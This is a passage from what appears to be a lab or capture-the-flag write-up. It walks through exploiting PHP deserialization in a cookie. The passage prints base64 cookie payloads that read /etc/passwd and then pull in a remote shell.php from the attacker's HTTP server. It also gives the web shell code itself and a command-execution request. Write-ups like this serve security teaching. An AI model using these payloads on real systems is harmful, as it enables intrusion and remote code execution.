 A new cookie is also obtained.

`Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjU6ImFkbWluIjtzOjk6IgBVc2VyAHdlbCI7TzozOiJMb2ciOjE6e3M6MTM6IgBMb2cAdHlwZV9sb2ciO3M6MTE6Ii9ldGMvcGFzc3dkIjt9fQ==`

Let's decode it and check it's contents.

`O:4:"User":2:{s:10:"Username";s:5:"admin";s:9:"Userwel";O:3:"Log":1:{s:13:"Logtype_log";s:11:"/etc/passwd";}}`

This proves that the instructions lie in the parameters provided inside the cookie.

We exploit the RFI vulnerability present here by spawning a local server and linking the **$type\_log** variable to this shell file.

!["python_server"](/Serial_1/14_image.png)
_Spawn a python3 Simple HTTP Server._

And modify the _**log.class.php**_ file to fetch the shell.php file.

Added `http://192.168.1.6:8000/shell.php`

Format: `http://LHIP:8000/shell.php`

!["type_log"](/Serial_1/15_image.png)
_Modified $type\_log variable._

Where, the _**shell.php**_ file is as follows:

```php
<?php
system($_GET["cmd"]);
?>
```

Obtain the new cookie, and replace it with the previous cookie.

Run `php user.class.php`

!["cookie_shell"](/Serial_1/19_image.png)
_Cookie with shell._

The new cookie `Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjU6ImFkbWluIjtzOjk6IgBVc2VyAHdlbCI7TzozOiJMb2ciOjE6e3M6MTM6IgBMb2cAdHlwZV9sb2ciO3M6MzM6Imh0dHA6Ly8xOTIuMTY4LjEuNjo4MDAwL3NoZWxsLnBocCI7fX0=`

Decodes to be 

`O:4:"User":2:{s:10:"Username";s:5:"admin";s:9:"Userwel";O:3:"Log":1:{s:13:"Logtype_log";s:33:"http://192.168.1.6:8000/shell.php";}}`

A `GET` request at `http://192.168.1.3/?cmd=whoami`

`Format: http://LHIP/?cmd=COMMAND`

!["request"](/Serial_1/21_image.png)
_Output of GET request._

It worked!
